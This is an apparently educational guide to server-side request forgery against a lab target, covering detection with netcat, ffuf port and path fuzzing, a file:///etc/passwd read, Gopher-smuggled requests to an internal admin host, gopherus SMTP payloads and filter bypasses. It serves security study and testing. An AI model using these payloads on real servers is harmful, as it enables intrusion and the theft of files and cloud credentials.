

# \_OVERVIEW

Server-Side Request Forgery (SSRF) is a vulnerability where an attacker tricks a server into making requests on their behalf. This deceptively simple flaw can have devastating consequences, potentially allowing attackers to:

- Access internal services hidden from the public internet
- Leak sensitive cloud metadata (including credentials!)
- Read local files on the server
- Perform network discovery and port scanning

In this guide, we'll explore SSRF from identification to exploitation, complete with practical demonstrations and real-world bypass techniques.

<!-- more -->

---

## Introductory Guides

New to SSRF? Start here before diving into exploitation:

1. [Server-Side Request Forgery (SSRF) blog post by Intigriti](https://www.intigriti.com/researchers/hackademy/server-side-request-forgery-ssrf)
   A beginner-friendly introduction to SSRF with clear explanations and examples.
2. [PortSwigger Labs](https://portswigger.net/web-security/all-labs#server-side-request-forgery-ssrf)
   Comprehensive guides and labs for testing SSRF vulnerabilities, accompanied by hands-on labs.

#### Testing Methodology

Any input that could contain a URL parsed by the application is a potential SSRF vector.

Here's an important insight: most disclosed SSRF vulnerabilities hide in features where users upload files that the application parses. These "hidden" SSRFs can also sneak into unexpected places.

##### Pro Tips

- Hunt through import features: administration panels, configuration uploads, and data import tools are goldmines
- Experiment with different file types (SVG, PNG, YAML, etc.) containing arbitrary URLs. They may bypass stricter validation rules applied to direct URL inputs
- Don't forget XXE payloads in XML parsers. They're often overlooked

The following sections cover common SSRF exploitation techniques using `dateserver.htb` as our target.

---

### Identifying SSRF

Let's walk through identifying an SSRF vulnerability step by step.

Imagine we've discovered a parameter called `dateserver` that accepts a URL as input. If we attempt to fetch resources from our controlled server at `http://10.10.16.36`, we might receive a connection on our netcat listener:

Checking our netcat listener, we can see a connection received from the application:

```bash
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

This behavior does not necessarily indicate an SSRF vulnerability (for example, webhooks are designed to make outbound requests). However, it provides an instant target for ssrf attacks. Weak or missing validation could allow abuse, especially if there is no strict domain allowlist or if requests to internal or reserved IP ranges are not properly blocked.

Our first goal is to determine whether we can get the server to retrieve local resources, let us point the web application to itself by providing the URL `http://127.0.0.1/index.php`:

We can see that the API returns the source code of the index page. This confirms that the dateserver is vulnerable to a non blind SSRF, since the full HTML response is reflected back to us.

In real world targets, this behavior is less common because many frameworks include built in validations that can block this kind of behavior, sometimes without developers explicitly thinking about SSRF at all. good developers also often avoid returning full responses, and HTTPS or other controls may further restrict this exploitation style. These defenses will be mentioned briefly in the next sections, but for now we can move on to the exploitation phase and attempt to access internal services.

---


### Demonstrating SSRF Exploitation Techniques

- [PayloadsAllTheThings Cheatsheet](https://github.htb/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#tools)
  references to articles, cheatsheets, payloads, tools, and bypasses
  
#### Port Scanning

SSRFs exploitation provide a way to map internal resources such as live machines/local ports. 

First, We have identify error messages by inspecting discrepancies between server responses. Comparing how the application responds to open vs. closed ports can reveal valuable information.

Generate a list of port numbers:

```bash
$ seq 1 10000 > ports.txt
```

example responses:

```
port 445

RESPONSE:
timeout <- closed
```

```
port 8000

RESPONSE:
Failed to connect to resource <- open
```

Afterward, we can fuzz all open ports by filtering out responses containing the error message we have identified earlier.

```shell-session
$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

#### Directory Bruteforcing

Fuzz for restricted or undiscovered paths:

```shell-session
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

Accessing restricted paths, such as admin panel, by using SSRF:


#### Filesystem & Internal network access

##### File Scheme

If the `file://` scheme is allowed, we can read arbitrary files from the filesystem, including the web application's source code:

```
file:///etc/passwd
```

##### Gopher Scheme

The Gopher protocol is a powerful SSRF weapon. It allows us to embed complete HTTP requests (and other protocols) directly into URLs. But why does this matter?

Imagine you've used SSRF to access a restricted admin endpoint. Great, but how do you actually _interact_ with it? Send POST requests? Submit login forms? That's where Gopher shines.

For example we may have two requests, Request 1 has a ping functionality to a public server (`dateserver.htb`):

```
(Request 1)
POST /index.php HTTP/1.1
Host: dateserver.htb
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

pingServer=example.htb
```

And Request 2 is a login request to an admin panel on a separate vhost that had been discovered through vhost enumeration(`admin.dateserver.htb`) blocks access from the public internet:

```
(Request 2)
POST /admin.php HTTP/1.1
Host: admin.dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

By using the Gopher protocol and URL-encoding special characters, we can embed a secondary POST request into the `pingServer` parameter, tunneling our request through `dateserver.htb` to reach the restricted vhost (`admin.dateserver.htb`):

```http
(Request 1 [With Request 2 embedded])

POST /index.php HTTP/1.1
Host: dateserver.htb
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

pingServer=gopher://admin.dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20admin.dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```


In the figure above, the second request successfully reached the internal VHOST (`admin-internal.server.htb`).

While we successfully constructed a valid Gopher URL, getting the syntax right manually is tedious and error-prone. That's where **gopherus** comes in. It automates the entire process.

Gopherus supports various protocols. Let's say we've enumerated internal ports and discovered an SMTP service. Here's how we'd use `gopherus` to craft a malicious Gopher URL:

The tool prompts for email details, then generates a ready-to-use Gopher URL for our SSRF payload:

```bash
$ python2.7 gopherus.py --exploit smtp


Give Details to send mail:

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail:

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r--------

```

Now we can inject this Gopher URL into the `pingServer` parameter. The SMTP response comes back as raw SMTP data embedded in the HTTP response, proof that we've successfully communicated with an internal service!

### Leaking Cloud metadata

[SSRF to AWS Metadata Exposure: How Attackers Steal Cloud Credentials](https://www.resecurity.htb/blog/article/ssrf-to-aws-metadata-exposure-how-attackers-steal-cloud-credentials)

[(payloads) SSRF URL for Cloud Instances](https://github.htb/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/SSRF-Cloud-Instances.md)

---

## Blind SSRFs

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called blind SSRF vulnerabilities because we cannot see the response. As such, we can't use the same exploitation vectors as we would with non-blind SSRF vulnerabilities.

The impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

#### Identifying Blind SSRF

We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a netcat listener:

```shell
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

But unfortunately, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request. Instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:


Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with Something went wrong! for closed ports

#### Increasing Impact of Blind SSRFs

- [blind-ssrf-chains](https://github.htb/assetnote/blind-ssrf-chains):
  A Collection of blind SSRF attack chains for different cloud providers and services.

### Understanding Current Mitigations

To effectively exploit SSRF, you need to understand what you're up against. Study these defensive implementations:

- [OWASP SSRF Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [GitLab&#39;s URL Blocker Library](https://gitlab.com/gitlab-org/gitlab/-/blob/master/gems/gitlab-http/lib/gitlab/http_v2/url_blocker.rb):
  Study this as a reference for understanding how robust URL validation is implemented. Walk through each stage, understand what it does, and consider trying to implement SSRF protections in your own programming language. It's the best way to spot weaknesses.

---

### Modern Bypasses

This section covers some of the most interesting bypass techniques for SSRF protections. I'll keep updating this as I discover new methods!

**DNS Rebinding (Bypass Local IP Blacklists)**:

DNS rebinding bypasses local IP blacklists (e.g., 127.0.0.1) by making a domain rapidly alternate between resolving to an external IP and an internal IP. The validation passes when it sees the external IP, but the actual request hits the internal one.

**IPv6 Internal Addresses**:

Many developers focus exclusively on blocking IPv4 addresses and completely overlook IPv6. This oversight means internal resources can sometimes be accessed using IPv6 equivalents like `::1` or `[::ffff:127.0.0.1]`.

## BB Writeups:

- [How I Found Tricky Server-Side Request Forgery (SSRF) by DarkT](https://darkt.medium.com/how-i-found-tricky-server-side-request-forgery-ssrf-96c5fb630acd)
  Covers several interesting SSRF bypasses, and the challenges he faced with DNS and HTTPS.
- [SSRF In the Wild by Vickie Li](https://vickieli.dev/ssrf/ssrf-in-the-wild/)
  Explores recent SSRF vulnerability reports and identifies common coding patterns and testing techniques. Highly recommend her entire SSRF series, including [Bypassing SSRF Protections](https://vickieli.dev/ssrf/bypassing-ssrf-protection/)!

---


